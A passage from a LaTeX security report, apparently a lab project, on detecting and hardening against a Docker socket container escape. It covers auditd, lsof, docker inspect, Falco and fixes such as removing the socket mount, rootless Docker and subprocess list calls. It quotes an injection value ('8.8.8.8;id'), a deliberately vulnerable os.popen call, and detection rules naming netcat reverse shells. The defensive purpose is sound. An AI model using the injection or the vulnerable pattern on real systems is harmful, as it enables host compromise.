    \item \texttt{-p rwxa}: trigger on read, write, execute, and attribute-change operations.
    \item \texttt{-k docker\_sock}: tag every matching log entry with this key, enabling fast retrieval via \texttt{ausearch -k docker\_sock}.
\end{itemize}

This rule is runtime-only. It is lost on reboot unless written to a persistent rules file:

\begin{lstlisting}
# /etc/audit/rules.d/docker.sock.rules
-w /var/run/docker.sock -p rwxa -k docker_sock
\end{lstlisting}

\texttt{auditd} hooks into the Linux kernel's \texttt{audit} subsystem. Every process that opens, reads, writes, or changes attributes on the socket path generates a log record containing the PID, UID, timestamp, and syscall that triggered the event. Because \texttt{auditd} runs on the host, it sees all container processes by their host PIDs regardless of namespace boundaries.

A key limitation applies to the demonstration: if the attack ran before \texttt{auditd} was set up, there are no retroactive log entries. The rule only captures future accesses. This illustrates why proactive deployment of \texttt{auditd} rules --- before an attack occurs --- is necessary for \texttt{auditd} to serve as a useful forensic source.

\subsection{Parsing Audit Logs}

\begin{lstlisting}[language=bash]
ausearch -k docker_sock 2>/dev/null | tail -20
\end{lstlisting}

\texttt{ausearch} queries \texttt{/var/log/audit/audit.log} and returns all records tagged with the specified key. Each event produces a group of related record types:

\begin{itemize}
    \item \texttt{type=SYSCALL}: the syscall number, PID, UID, and whether the call succeeded.
    \item \texttt{type=PATH}: the filesystem path that was accessed.
    \item \texttt{type=PROCTITLE}: the command line of the process that triggered the event, encoded in hex.
\end{itemize}

The output is piped to \texttt{tail -20} to limit volume during the demonstration. The full log at \texttt{/var/log/audit/audit.log} is available for complete forensic review.

\subsection{Live Socket Monitoring with lsof}

\begin{lstlisting}[language=bash]
lsof /var/run/docker.sock
\end{lstlisting}

\texttt{lsof} reads \texttt{/proc/*/fd/} symlinks to enumerate every process that currently has a file descriptor open on the specified path. It requires no kernel module. The output columns include \texttt{COMMAND}, \texttt{PID}, \texttt{USER}, \texttt{FD}, \texttt{TYPE}, and \texttt{NAME}.

The expected baseline output contains only the \texttt{dockerd} process. Any additional entry --- particularly one associated with an unexpected binary or a PID that maps to a container process --- indicates active socket abuse.

\texttt{lsof} and \texttt{auditd} are complementary: \texttt{lsof} provides a live snapshot of who holds the socket open right now, while \texttt{auditd} provides a historical record of every past access. Neither alone is sufficient.

The script closes with a summary table:

\begin{center}
\begin{tabular}{ll}
\hline
\textbf{Tool} & \textbf{What It Catches} \\
\hline
File check & Escape artifact (post-attack) \\
\texttt{docker inspect} & Socket bind-mount misconfiguration \\
\texttt{auditd} & Any process touching socket (ongoing) \\
\texttt{lsof} & Live processes with socket handle open \\
Falco* & Runtime rules --- not installed in demo \\
\hline
\end{tabular}
\end{center}

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{detect.sh check sequence and the evidence layer each tool targets}
\end{figure}
\chapter{Detection Techniques}

\section{Host-Based Indicators of Compromise}

After the attack chain executes, several categories of forensic evidence remain on the host. These indicators exist regardless of whether \texttt{detect.sh} has been run. Knowing where to look and what constitutes an anomaly is the prerequisite for any reactive investigation.

\textbf{Filesystem artifacts:}
\begin{itemize}
    \item \texttt{/tmp/escaped.txt}: the direct escape artifact --- a file written to the host filesystem by a process that originated inside a container. Owned by root, present on the host, and absent from any container layer.
    \item New files in \texttt{/root/.ssh/}, \texttt{/etc/cron.d/}, or \texttt{/etc/passwd} if the attacker escalated further after the escape.
    \item New Docker images: \texttt{docker images} will show \texttt{alpine} pulled by the escape step, which was not present in the original image inventory.
    \item Stopped containers in \texttt{docker ps -a}: the escape container launched with \texttt{--rm} in this scenario, so it self-removes after exit. Without \texttt{--rm}, a stopped alpine container would remain as a persistent artifact.
\end{itemize}

\textbf{Process artifacts:}
\begin{itemize}
    \item An unexpected parent-child process chain: \texttt{python3} (the Flask worker) with a \texttt{bash} child that has no associated TTY. This is visible in \texttt{ps aux} and \texttt{pstree}.
    \item A \texttt{bash} process whose command line contains \texttt{/dev/tcp}: \texttt{cat /proc/<pid>/cmdline} on the suspicious PID will reveal the Bash TCP redirect syntax used to open the reverse shell.
    \item \texttt{apt-get} execution inside the container: visible in container process history and potentially in \texttt{/var/log/dpkg.log} if the container's filesystem is inspected.
\end{itemize}

\textbf{Network artifacts:}
\begin{itemize}
    \item An outbound TCP connection from a container IP in the \texttt{172.17.0.0/16} range to the attacker IP on port 4444. This is visible in \texttt{netstat -an} or \texttt{ss -an} during an active reverse shell session.
    \item The connection appears as the container's IP (Docker applies NAT at the host bridge), so the source address in \texttt{netstat} is the container's \texttt{docker0} address, not the host's external IP.
\end{itemize}

\textbf{Log artifacts:}
\begin{itemize}
    \item The Flask access log records every request, including \texttt{GET /ping?host=8.8.8.8\%3Bid} --- the URL-encoded semicolon is preserved verbatim in the log and is a clear injection indicator.
    \item The Docker daemon log records container creation events and image pulls, including the alpine pull initiated from inside the container via the daemon socket.
    \item If \texttt{auditd} was running before the attack, \texttt{/var/log/audit/audit.log} contains timestamped records of every process that opened \texttt{/var/run/docker.sock}, including the attacker's docker CLI invocation from inside the container.
\end{itemize}

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Host artifact map: filesystem, process, network, and log IOCs left by the attack chain}
\end{figure}

% ---

\section{docker inspect for Mount Auditing}

\texttt{docker inspect} is the primary tool for auditing container configuration. It reads directly from daemon state and returns the complete JSON record for any container, including the \texttt{Mounts} array that exposes every bind mount and the \texttt{HostConfig} object that records the flags passed at container creation time. Importantly, it works post-incident without requiring the container to be in a running state.

Extracting bind mounts for a specific container:

\begin{lstlisting}[language=bash]
docker inspect netdiag-app | \
    python3 -c "import sys, json; \
    [print(m['Source'], '->', m['Destination']) \
    for m in json.load(sys.stdin)[0]['Mounts']]"
\end{lstlisting}

Mount patterns that should be treated as critical findings:
\begin{itemize}
    \item \texttt{/var/run/docker.sock} bound to any destination inside the container --- direct daemon access.
    \item \texttt{/} or \texttt{/etc} or \texttt{/root} bound into the container --- host root or configuration exposure.
    \item \texttt{/proc} mounted into the container --- host process namespace visibility.
\end{itemize}

Auditing all running containers at once:

\begin{lstlisting}[language=bash]
docker ps -q | xargs -I{} docker inspect {} | \
    python3 -c "
import sys, json
for c in json.load(sys.stdin):
    for m in c.get('Mounts', []):
        if 'docker.sock' in m.get('Source', ''):
            print('ALERT:', c['Name'], m['Source'])
"
\end{lstlisting}

Beyond mount configuration, \texttt{HostConfig.Privileged} and \texttt{HostConfig.CapAdd} are equally important fields to check:

\begin{lstlisting}[language=bash]
docker inspect netdiag-app | python3 -c \
    "import sys, json; \
    h = json.load(sys.stdin)[0]['HostConfig']; \
    print('Privileged:', h['Privileged']); \
    print('CapAdd:', h['CapAdd'])"
\end{lstlisting}

A container with \texttt{Privileged: true} has full host capability access --- equivalent in danger to a \texttt{docker.sock} mount. \texttt{CapAdd} entries such as \texttt{CAP\_SYS\_ADMIN} or \texttt{CAP\_NET\_ADMIN} indicate elevated capability grants that may enable escape paths outside the socket vector.

This audit should be integrated into the CI/CD pipeline. Every container deployment should trigger an inspect audit; a pipeline step that finds a \texttt{docker.sock} mount or \texttt{Privileged: true} should fail the deployment before the container reaches production.

% ---

\section{auditd --- Architecture and Rule System}

\texttt{auditd} is a Linux kernel subsystem paired with a userspace daemon. It provides tamper-resistant logging of filesystem access, syscall execution, and user authentication events. Its value in the Docker socket context is that it operates entirely on the host and is transparent to container namespace boundaries --- it sees all container processes by their host PIDs and logs their activity against host filesystem paths.

\subsection{Architecture}

\texttt{auditd} consists of three components working together:

\begin{itemize}
    \item The \textbf{kernel audit subsystem}, compiled into the Linux kernel, intercepts system calls and filesystem operations that match registered rules. It writes event records to an in-kernel buffer.
    \item The \textbf{\texttt{auditd} daemon} in userspace reads from the kernel buffer via a \texttt{netlink} socket and appends records to \texttt{/var/log/audit/audit.log}. The log is append-only and readable only by root.
    \item \textbf{\texttt{auditctl}} is the rule management utility. It adds, removes, and lists rules at runtime. Changes made with \texttt{auditctl} are active immediately but do not survive a reboot unless written to \texttt{/etc/audit/rules.d/}.
\end{itemize}

\subsection{Rule Types}

Three categories of rules are relevant:

\begin{itemize}
    \item \textbf{File watch rules} (\texttt{-w}): monitor a specific file or directory path for a set of access types. Applicable access type flags are \texttt{r} (read), \texttt{w} (write), \texttt{x} (execute), and \texttt{a} (attribute change).
    \item \textbf{Syscall rules} (\texttt{-a}): trigger on a specific system call, optionally filtered by UID, PID, or architecture.
    \item \textbf{Control rules} (\texttt{-e}): enable or disable the audit system globally.
\end{itemize}

\subsection{File Watch Rule for docker.sock}

The rule deployed in \texttt{detect.sh}:

\begin{lstlisting}[language=bash]
auditctl -w /var/run/docker.sock -p rwxa -k docker_sock
\end{lstlisting}

When active, the kernel notifies \texttt{auditd} on every \texttt{open()}, \texttt{read()}, \texttt{write()}, and \texttt{connect()} system call that touches the socket path. Each event generates a log record containing the timestamp, PID, UID, process name, full executable path, syscall number, and result.

Persistent rule file to survive reboots:

\begin{lstlisting}
# /etc/audit/rules.d/docker.sock.rules
-w /var/run/docker.sock -p rwxa -k docker_sock
\end{lstlisting}

Log rotation is managed by \texttt{auditd.conf} via the \texttt{max\_log\_file} and \texttt{max\_log\_file\_action} directives. Performance impact for a file watch on \texttt{/var/run/docker.sock} is negligible --- the socket is accessed infrequently relative to high-volume paths such as \texttt{/tmp} or \texttt{/proc}.

The critical limitation in a reactive deployment: \texttt{auditd} does not log retroactively. If the attack runs before the rule is established, there are no records of those accesses. This is the primary argument for deploying \texttt{auditd} rules as part of host provisioning, not as a response to an incident.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{auditd architecture: kernel audit subsystem, netlink socket, userspace daemon, and log pipeline}
\end{figure}

% ---

\section{ausearch and Log Interpretation}

\texttt{ausearch} is the query tool for \texttt{/var/log/audit/audit.log}. It supports filtering by key, PID, user, time range, and several other fields, making it significantly more practical than grepping the raw log file.

Basic queries for the docker socket key:

\begin{lstlisting}[language=bash]
ausearch -k docker_sock
ausearch -k docker_sock --start today
ausearch -k docker_sock -p <pid>
\end{lstlisting}

\subsection{Log Record Structure}

Each file access event generates a group of three related record types written sequentially to the log:

\begin{lstlisting}
type=SYSCALL ... pid=1234 uid=0 comm="docker" exe="/usr/bin/docker"
type=PATH ... name="/var/run/docker.sock" nametype=NORMAL
type=PROCTITLE proctitle=646F636B6572...
\end{lstlisting}

\begin{itemize}
    \item The \texttt{SYSCALL} record captures the syscall number, PID, UID, binary name (\texttt{comm}), full executable path (\texttt{exe}), and whether the call succeeded (\texttt{success=yes/no}).
    \item The \texttt{PATH} record captures the filesystem path that was accessed and its type (\texttt{NORMAL}, \texttt{CREATE}, \texttt{DELETE}).
    \item The \texttt{PROCTITLE} record contains the full command line of the triggering process, hex-encoded. This encoding prevents log injection via crafted command line strings.
\end{itemize}

Decoding the \texttt{PROCTITLE} hex:

\begin{lstlisting}[language=bash]
ausearch -k docker_sock | grep PROCTITLE | \
    sed 's/.*proctitle=//; s/../\\x&/g' | xargs -0 printf
\end{lstlisting}

\subsection{Key Fields and Suspicious Patterns}

The fields most relevant to this attack:

\begin{itemize}
    \item \texttt{pid}: which process accessed the socket.
    \item \texttt{uid}: UID 0 from a process whose \texttt{exe} path is not \texttt{/usr/bin/dockerd} is the primary suspicious pattern.
    \item \texttt{comm}: the binary name. \texttt{docker} appearing as \texttt{comm} with a parent PID that maps to a container namespace is an anomaly.
    \item \texttt{exe}: the full executable path. An unexpected path such as one under \texttt{/tmp} or inside an overlay filesystem layer would indicate a staged binary.
    \item \texttt{success}: a failed access (success=no) may indicate a probing attempt that was blocked by file permissions.
\end{itemize}

\texttt{aureport} can generate a file access summary report that is more compact than raw \texttt{ausearch} output:

\begin{lstlisting}[language=bash]
aureport -f | grep docker.sock
\end{lstlisting}

% ---

\section{lsof for Live Process Inspection}

\texttt{lsof} (list open files) reports which processes currently have a file descriptor referencing a given path. It reads \texttt{/proc/*/fd/} symlinks and does not require a kernel module or elevated configuration.

\begin{lstlisting}[language=bash]
lsof /var/run/docker.sock
\end{lstlisting}

The output format:

\begin{lstlisting}
COMMAND   PID  USER   FD   TYPE   DEVICE SIZE/OFF NODE NAME
dockerd   412  root   11u  unix   ...              ...  docker.sock
docker   8823  root    5u  unix   ...              ...  docker.sock
\end{lstlisting}

The first row is expected: \texttt{dockerd} holds the socket open as the owning daemon. The second row --- a \texttt{docker} process that is not the daemon --- is suspicious, particularly if its PID maps to a process inside a container.

Tracing the parent chain of a suspicious PID:

\begin{lstlisting}[language=bash]
ps -o pid,ppid,cmd --pid <suspicious_pid>
cat /proc/<suspicious_pid>/status | grep PPid
\end{lstlisting}

Determining whether a PID originated inside a container:

\begin{lstlisting}[language=bash]
cat /proc/<pid>/cgroup | grep docker
\end{lstlisting}

If the \texttt{cgroup} entry contains a Docker container ID, the process is running inside a container but is visible on the host because \texttt{auditd} and \texttt{lsof} operate in the host's PID namespace.

\texttt{lsof} and \texttt{auditd} serve different temporal roles. \texttt{lsof} is a live snapshot; it captures who holds the socket open at the moment of execution. If an attacker opens and closes the socket quickly, a single \texttt{lsof} invocation may miss the access entirely. \texttt{auditd} covers this gap by logging every access event continuously regardless of when the query is run.

% ---

\section{Falco --- Rule-Based Runtime Detection}

Falco is a CNCF runtime security tool that monitors kernel events via an eBPF probe or a kernel module. It operates as a continuous detection engine rather than an on-demand audit tool. While Falco is not installed in this demonstration environment, it represents the correct detection layer for production deployments.

\subsection{Architecture}

Falco hooks into kernel system call events using eBPF. Every syscall that any process on the host generates passes through the eBPF probe. Falco evaluates each event against a ruleset expressed in YAML. When an event matches a rule condition, Falco emits an alert with configurable outputs (syslog, JSON, Slack webhook, and others).

The eBPF approach has low overhead and does not require modifying the kernel or loading an unsigned module. Falco is namespace-transparent --- it sees all container syscalls from the host perspective.

\subsection{Built-in Rules Relevant to This Attack}

\begin{center}
\begin{tabular}{p{4.5cm}p{4cm}p{4.5cm}}
\hline
\textbf{Rule} & \textbf{Trigger} & \textbf{Catches} \\
\hline
Sensitive Mount in Container & Container started with sensitive path mounted & \texttt{-v /var/run/docker.sock} at setup time \\
Container with docker.sock Mount & docker.sock visible in container mounts & Same --- at container start \\
Netcat Remote Code Execution in Container & \texttt{nc} with \texttt{-e} or \texttt{-c} flag & Reverse shell variants \\
Shell Spawned in Container & Unexpected \texttt{bash}/\texttt{sh} as child of non-shell process & Reverse shell spawned from Flask \\
Write Below Root & Container writes to host-mounted root path & Escape artifact write \\
\hline
\end{tabular}
\end{center}

Example Falco alert for the mount misconfiguration:

\begin{lstlisting}
Warning Sensitive mount by container
  (user=root container=netdiag-app
   mounts=/var/run/docker.sock:/var/run/docker.sock)
\end{lstlisting}

Falco fires the mount rules at container start --- before any exploitation attempt. This means the misconfiguration is detected at the moment the container is launched by \texttt{setup.sh}, not after the attacker has already acted.

\subsection{Custom Rule for This Scenario}

\begin{lstlisting}
- rule: Docker Socket Access from Container
  desc: Process inside container accessing docker.sock
  condition: >
    container and
    fd.name = /var/run/docker.sock and
    not proc.name = dockerd
  output: >
    docker.sock accessed from container
    (proc=%proc.name pid=%proc.pid)
  priority: CRITICAL
\end{lstlisting}

This rule fires any time a process inside a container opens \texttt{/var/run/docker.sock} and that process is not \texttt{dockerd} itself. It is a narrowly scoped rule that generates no false positives in a correct deployment.

% ---

\section{Building a Detection Checklist}

The checks described in this chapter divide into two operational contexts: proactive controls that run continuously before any attack occurs, and reactive checks that are run after a suspected incident to assess the extent of compromise.

\subsection{Proactive Controls}

\begin{itemize}
    \item Run \texttt{docker inspect} against all containers at deployment time. Flag any container with a \texttt{docker.sock} mount, \texttt{Privileged: true}, or a dangerous \texttt{CapAdd} entry. Fail the CI/CD pipeline on a positive result.
    \item Deploy Falco with the default ruleset on all Docker hosts. Alert on sensitive mounts at container start, before any exploitation is possible.
    \item Set the \texttt{auditctl} file watch rule on \texttt{/var/run/docker.sock} during host provisioning. Write the rule to \texttt{/etc/audit/rules.d/} to survive reboots.
    \item Review \texttt{docker-compose.yml} files and \texttt{docker run} commands in source control for \texttt{-v /var/run/docker.sock} patterns.
    \item Enforce image scanning with tools such as Trivy or Grype. Flag base images that include a shell and package manager, as both are required for the attacker to install the Docker CLI after gaining RCE.
\end{itemize}

\subsection{Reactive Checks}

\begin{itemize}
    \item Check \texttt{/tmp/}, \texttt{/root/.ssh/}, and \texttt{/etc/cron.d/} for unexpected files. Owner, permissions, and modification time are all relevant.
    \item Run \texttt{docker ps -a} and \texttt{docker images}. Short-lived alpine or busybox containers and unexpected image pulls are indicators of escape activity.
    \item Run \texttt{ausearch -k docker\_sock --start today} to identify all processes that touched the daemon socket since the rule was established.
    \item Run \texttt{lsof /var/run/docker.sock} to check for active non-daemon connections.
    \item Inspect the Flask or application access logs for URL-encoded shell metacharacters: \texttt{\%3B} (semicolon), \texttt{\%26} (ampersand), \texttt{\%7C} (pipe).
    \item Run \texttt{netstat -an} or \texttt{ss -an} and look for established outbound TCP connections from the container subnet (\texttt{172.17.0.x}) to external addresses on unexpected ports.
    \item Run \texttt{ps aux} for suspicious parent-child chains, then use \texttt{cat /proc/<pid>/cgroup} to confirm whether a suspicious process originated inside a container.
\end{itemize}
\chapter{Mitigation and Hardening}

\section{Never Mount docker.sock in Production}

The complete attack chain in this project is enabled by a single flag in the \texttt{docker run} command:

\begin{lstlisting}[language=bash]
-v /var/run/docker.sock:/var/run/docker.sock
\end{lstlisting}

Removing this flag eliminates the escape vector entirely. The corrected command for this project:

\begin{lstlisting}[language=bash]
docker run -d \
    -p 5000:5000 \
    --name netdiag-app \
    netdiag
\end{lstlisting}

Without the socket mount, the container has no path to the host Docker daemon. Even with full root-level RCE inside the container --- which the command injection vulnerability still provides --- the attacker cannot reach any host resources beyond what is accessible through the container's own network interface and mounted volumes. The RCE is contained within the container boundary.

The socket mount is commonly seen in monitoring and CI/CD containers that need to query or manage other containers on the same host. If this capability is genuinely required, the correct approach is a scoped proxy (Section~\ref{sec:socket-proxy}) rather than mounting the raw socket. Mounting the raw socket is never the appropriate choice in a production deployment because it grants complete daemon access with no scope restriction.

% ---

\section{Docker Socket Proxy}
\label{sec:socket-proxy}

The Tecnativa Docker Socket Proxy (\texttt{ghcr.io/tecnativa/docker-socket-proxy}) provides a controlled alternative when a container genuinely needs Docker API access. The proxy container mounts the host socket and exposes a scoped HTTP API to other containers over TCP. Application containers talk to the proxy, not to the raw socket.

Deployment with Docker Compose:

\begin{lstlisting}
services:
  socket-proxy:
    image: ghcr.io/tecnativa/docker-socket-proxy
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    environment:
      - CONTAINERS=1   # allow GET /containers
      - POST=0         # block all POST (no container creation)
      - DELETE=0       # block all DELETE
    networks:
      - proxy-net

  app:
    image: netdiag
    environment:
      - DOCKER_HOST=tcp://socket-proxy:2375
    networks:
      - proxy-net
\end{lstlisting}

The application container sets \texttt{DOCKER\_HOST} to the proxy's TCP address. All Docker API calls from the application go to the proxy. The proxy enforces which API methods and endpoints are permitted based on environment variable configuration.

How this blocks the escape: with \texttt{POST=0}, the proxy rejects all \texttt{POST} requests to the Docker API. Creating a new container requires \texttt{POST /containers/create} --- the exact call the attacker makes after gaining RCE. The proxy denies this request regardless of what credentials or capabilities the caller has.

For a read-only container monitoring use case, \texttt{CONTAINERS=1} combined with \texttt{POST=0} and \texttt{DELETE=0} is sufficient. The application can list and inspect containers but cannot create, start, stop, or delete them.

The proxy's own security posture must be maintained: the proxy container itself mounts the raw socket, so a compromise of the proxy container is equivalent to a compromise of the socket mount. The proxy container should run without network exposure to untrusted code paths and should be isolated on a dedicated internal network segment.

% ---

\section{Rootless Docker}

Standard Docker runs \texttt{dockerd} as UID 0 (root). This means that any process which gains access to \texttt{/var/run/docker.sock} effectively has root-equivalent access to the host. Rootless Docker restructures the daemon to run as an unprivileged user, using Linux user namespaces to simulate root inside containers.

Setup:

\begin{lstlisting}[language=bash]
dockerd-rootless-setuptool.sh install
export DOCKER_HOST=unix://$XDG_RUNTIME_DIR/docker.sock
\end{lstlisting}

How rootless Docker changes the attack chain:

\begin{itemize}
    \item \texttt{dockerd} runs as e.g. UID 1000, not UID 0. Operations performed via the socket execute with the privileges of UID 1000, not root.
    \item The socket is located at \texttt{\$XDG\_RUNTIME\_DIR/docker.sock} rather than
\texttt{/var/run/docker.sock}. A bind-mount of \texttt{/var/run/docker.sock} would find nothing at that path.
    \item Inside containers, UID 0 is mapped to a high UID on the host (e.g., UID 100000+) via user namespace UID remapping. A process that is root inside the container is not root on the host.
    \item A file written via the escape to the host filesystem --- such as \texttt{/tmp/escaped.txt} --- would be owned by UID 100000+ on the host, not by root. It cannot overwrite root-owned files or modify system configuration.
\end{itemize}

The practical result is that even a successful socket-based escape produces operations that execute as a low-privilege user on the host. The attacker cannot write to \texttt{/etc/}, \texttt{/root/}, or other root-owned locations, and cannot install system packages or load kernel modules.

Rootless Docker has limitations. Some features are unavailable or require additional configuration: \texttt{--network=host} and certain device mounts are restricted. The host kernel must have user namespace support enabled (\texttt{CONFIG\_USER\_NS=y}). Performance is marginally lower due to namespace overhead on filesystem operations.

Rootless Docker is best understood as defense-in-depth. It reduces the impact of a socket compromise rather than preventing it. A socket proxy (Section~\ref{sec:socket-proxy}) or removal of the socket mount (Section~11.1) remains the primary control.

\begin{figure}[h]
\centering
\vspace{3cm}
\caption{Standard Docker vs. rootless Docker: UID mapping and privilege scope comparison}
\end{figure}

% ---

\section{Podman as a Daemonless Alternative}

Podman is an OCI-compliant container runtime that eliminates the central daemon architecture entirely. There is no persistent \texttt{dockerd} process and no \texttt{/var/run/docker.sock} by default. Each \texttt{podman run} invocation directly calls \texttt{runc} or \texttt{crun} to manage the container lifecycle without passing through a privileged intermediary.

How Podman eliminates the attack vector:

\begin{itemize}
    \item With no daemon, there is no socket to bind-mount. The \texttt{-v /var/run/docker.sock} flag would fail because the path does not exist.
    \item With no shared daemon, there is no privileged process that all container operations flow through. Compromising one container's process space gives the attacker access to that container's resources only.
    \item Containers run as the invoking user by default with user namespace remapping. Container UID 0 maps to a high host UID, consistent with rootless Docker's behavior.
\end{itemize}

Podman maintains Docker CLI compatibility for most common operations:

\begin{lstlisting}[language=bash]
alias docker=podman
\end{lstlisting}

The \texttt{podman system service} command can optionally expose a socket, but it is user-scoped and opt-in --- the socket exists only while the service is explicitly running and is accessible only by the invoking user.

Security comparison:

\begin{center}
\begin{tabular}{lll}
\hline
\textbf{Property} & \textbf{Docker (default)} & \textbf{Podman (default)} \\
\hline
Daemon & Root daemon & No daemon \\
Socket & \texttt{/var/run/docker.sock} (root) & None by default \\
Container UID & Root unless specified & User UID (remapped) \\
Socket mount risk & Critical & Not applicable \\
\hline
\end{tabular}
\end{center}

Podman's limitations relative to Docker: no native Swarm equivalent, some Docker Compose features differ in behaviour, and enterprise tooling ecosystem maturity is lower. For teams that require Docker Compose workflows, \texttt{podman-compose} provides compatibility but has feature gaps.

% ---

\section{Fixing the Code --- subprocess vs os.popen}

The command injection vulnerability exists independently of the container configuration. Removing the socket mount prevents the escape but does not eliminate RCE. The correct fix at the code level removes the shell interpolation that makes injection possible.

Vulnerable code:

\begin{lstlisting}[language=python]
result = os.popen("ping -c 3 " + host).read()
\end{lstlisting}

\texttt{os.popen()} passes its argument to \texttt{/bin/sh -c}. String concatenation means the user-supplied \texttt{host} value becomes part of the shell command. The shell interprets metacharacters in \texttt{host} as syntax.

Fixed code:

\begin{lstlisting}[language=python]
import subprocess

result = subprocess.run(
    ['ping', '-c', '3', host],
    capture_output=True,
    text=True,
    timeout=10
).stdout
\end{lstlisting}

Why the list form eliminates injection: when \texttt{subprocess.run()} receives a list rather than a string, it calls \texttt{execve("/bin/ping", ["-c", "3", host], environ)} directly. No shell is involved. The value of \texttt{host} is passed as \texttt{argv[3]} to the \texttt{ping} binary as a literal argument. The \texttt{ping} binary receives \texttt{8.8.8.8;id} as a single hostname string, determines it is not a valid host, and exits with an error. The \texttt{id} suffix is never evaluated as a command.

Additional improvements in the fixed version:
\begin{itemize}
    \item \texttt{timeout=10} prevents indefinite hang if the target host is unreachable. \texttt{os.popen()} has no built-in timeout mechanism.
    \item \texttt{capture\_output=True} explicitly captures stdout and stderr into \texttt{.stdout} and \texttt{.stderr} attributes. The intent is unambiguous and no implicit pipe is created.
\end{itemize}

A common mistake that reintroduces the vulnerability:

\begin{lstlisting}[language=python]
subprocess.run("ping -c 3 " + host, shell=True)
\end{lstlisting}

This fix eliminates RCE regardless of how the container is configured. With RCE gone, the docker.sock escape becomes unreachable: the attacker has no code execution path to reach the socket.

% ---

\section{Input Validation and Allowlisting}

Input validation is a second layer of defence, not a replacement for the \texttt{subprocess} fix. It provides defence-in-depth: even if a future code change reintroduces a shell invocation, the allowlist prevents injection characters from reaching it.

Allowlist-based validation:

\begin{lstlisting}[language=python]
import re
from flask import abort

VALID_HOST = re.compile(r'^[a-zA-Z0-9.\-]{1,253}$')

@app.route('/ping')
def ping():
    host = request.args.get('host', '')
    if not VALID_HOST.match(host):
        abort(400)
    result = subprocess.run(
        ['ping', '-c', '3', host],
        capture_output=True,
        text=True,
        timeout=10
    ).stdout
    return render_template('index.html', result=result)
\end{lstlisting}

The regex permits only alphanumeric characters, dots, and hyphens --- the valid character set for a hostname or IP address. It rejects semicolons, ampersands, pipes, dollar signs, backticks, spaces, and all other shell metacharacters at the input boundary before any command construction occurs.

Allowlisting is preferred over blocklisting. A blocklist approach attempts to enumerate and reject known dangerous characters. This is reliably bypassed via URL encoding, Unicode equivalents, or metacharacters that the blocklist author did not anticipate. An allowlist accepts only a known-safe set and rejects everything else, so novel bypass techniques do not help the attacker.

Additional validation layers that strengthen the control:

\begin{itemize}
    \item Length limit enforcement: \texttt{len(host) > 253 $\rightarrow$ abort(400)}. DNS hostnames have a defined maximum length; values exceeding it are either invalid or crafted.
    \item Strict IP validation using the standard library: \texttt{ipaddress.ip\_address(host)} raises \texttt{ValueError} on non-IP strings, enabling an IP-only mode if domain name lookup is not required by the application.
    \item Rate limiting via \texttt{flask-limiter}: prevents rapid sequential injection probing that an attacker might use to enumerate valid injection payloads despite validation failures.
\end{itemize}

The defence-in-depth principle applies: \texttt{subprocess} list-form invocation eliminates the vulnerability at the execution layer; input validation eliminates dangerous characters before they reach any command construction logic. Both controls together are more robust than either alone.

% ---

\section{Running Containers as Non-Root}

The Dockerfile in this project does not include a \texttt{USER} directive, so the Flask process runs as UID 0 inside the container. This means every \texttt{fork()}/\texttt{exec()} child inherits root, including the reverse shell and all subsequent commands the attacker runs. Adding a non-root user to the Dockerfile breaks this chain.

Fixed Dockerfile:

\begin{lstlisting}
FROM python:3.11-slim
WORKDIR /app
COPY . .
RUN pip install flask
RUN useradd -m -u 1001 -s /bin/bash appuser && \
    chown -R appuser:appuser /app
USER appuser
EXPOSE 5000
CMD ["python3", "app.py"]
\end{lstlisting}

With this change, the Flask process runs as UID 1001. Every child process it spawns inherits UID 1001.

Impact on the attack chain:

\begin{itemize}
    \item \texttt{ls -la /var/run/docker.sock} shows permissions \texttt{srw-rw---- root:docker}. UID 1001 is neither the owner nor a member of the \texttt{docker} group, so opening the socket fails with \texttt{EACCES}.
    \item \texttt{apt-get install docker.io} requires write access to \texttt{/usr/bin/} and the package database, both owned by root. The command fails.
    \item RCE is still achievable: the command injection vulnerability operates independently of the process UID. However, the attacker's shell runs as UID 1001, and the socket is inaccessible. The escape is blocked.
\end{itemize}

The \texttt{--user} flag provides a runtime-level override if the Dockerfile cannot be modified:

\begin{lstlisting}[language=bash]
docker run --user 1001 netdiag
\end{lstlisting}

One pitfall to avoid explicitly: do not add \texttt{appuser} to the \texttt{docker} group. The \texttt{docker} group grants read/write access to \texttt{/var/run/docker.sock}, which is equivalent to giving the user root-level daemon access. Group membership would negate the protection that the non-root user provides.

% ---

\section{Read-Only Filesystems}

The \texttt{--read-only} flag mounts the container's root filesystem without an OverlayFS write layer. Any attempt to write to the container filesystem --- including \texttt{/usr/bin/}, \texttt{/tmp/}, and \texttt{/var/} --- fails with \texttt{EROFS} (read-only filesystem).

Impact on the attack chain:

\begin{itemize}
    \item \texttt{apt-get update} fails immediately on the first attempt to write to \texttt{/var/lib/apt/}. The Docker CLI cannot be installed, so the attacker has no tool to communicate with the daemon socket even if it is accessible.
    \item The reverse shell can still execute: existing binaries such as \texttt{bash}, \texttt{python3}, and \texttt{nc} are already present in the image and are unaffected by read-only mounting. The attacker retains code execution but cannot install additional tools.
\end{itemize}

\texttt{/tmp} is also read-only under this flag, which breaks some applications. The recommended pattern is to add specific \texttt{tmpfs} mounts for directories that legitimately need write access:

\begin{lstlisting}[language=bash]
docker run --read-only \
    --tmpfs /tmp:rw,noexec,nosuid \
    --tmpfs /var/run:rw,noexec,nosuid \
    netdiag
\end{lstlisting}

The \texttt{noexec} mount option prevents binaries written to \texttt{/tmp} from being executed. An attacker who downloads a payload dropper to \texttt{/tmp} cannot run it. \texttt{nosuid} prevents setuid binaries staged in \texttt{/tmp} from escalating privileges.

\texttt{--read-only} does not prevent network-based exfiltration or socket-based escape if the socket remains mounted. It is a hardening layer that limits the attacker's ability to install tools and establish persistence, not a control that blocks the primary escape vector.

% ---

\section{Seccomp and AppArmor Profiles}

Docker applies a default seccomp profile to all containers, blocking approximately 44 system calls including \texttt{kexec\_load} and restricted forms of \texttt{mount}. This default profile does not block \texttt{socket(AF\_UNIX)}, \texttt{connect()}, or the calls needed for the reverse shell TCP connection. Custom profiles can restrict further.

\subsection{Custom Seccomp Profile}

A whitelist-only seccomp profile that permits only the syscalls required by the application:

\begin{lstlisting}
{
  "defaultAction": "SCMP_ACT_ERRNO",
  "syscalls": [
    {
      "names": [
        "read", "write", "open", "close", "execve",
        "fork", "clone", "wait4", "exit_group",
        "socket", "connect", "send", "recv",
        "mmap", "brk", "futex"
      ],
      "action": "SCMP_ACT_ALLOW"
    }
  ]
}
\end{lstlisting}

